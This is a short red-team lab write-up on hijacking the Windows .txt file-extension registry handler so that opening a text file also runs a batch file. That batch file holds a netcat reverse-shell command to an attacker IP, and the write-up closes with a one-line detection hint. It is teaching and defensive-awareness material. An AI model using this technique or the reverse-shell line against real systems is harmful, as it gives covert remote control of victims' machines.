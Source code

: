 # Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension \(among many others\) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened. 

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:

![](../../.gitbook/assets/image%20%28111%29.png)

Say, a target user has the file test.exe on his desktop with the below file contents:

![](../../.gitbook/assets/image%20%28224%29.png)

Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:

{% code title="c:\\tools\\shell.cmd" %}
```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```
{% endcode %}

![](../../.gitbook/assets/image%20%28482%29.png)

Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:

![](../../.gitbook/assets/image%20%28429%29.png)

## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:

![](../../.gitbook/assets/hijacked-extension.gif)

## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References

{% embed url="https://attack.mitre.org/techniques/T1042/" %}

